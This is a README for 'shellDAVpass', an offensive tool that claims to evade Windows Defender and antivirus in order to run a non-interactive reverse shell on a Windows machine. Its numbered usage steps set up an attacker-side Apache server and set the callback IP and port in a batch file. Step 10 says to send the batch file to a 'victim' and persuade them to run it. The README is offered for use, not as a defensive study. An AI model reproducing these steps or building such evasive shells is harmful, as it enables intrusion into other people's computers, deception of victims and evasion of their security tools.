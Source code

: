 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. chown -R www-data: shellDAVpass
6. cd shellDAVpass
7. nano shellDAVpass.bat
8. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
9. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
10. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
11. Launch the command prompt
  bash shellDAVpass.sh
12. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/12/AutoSUID_Video.gif)

Screenshots:
------------
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-001.png)
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-002.png)
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-003.png)
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell.png)
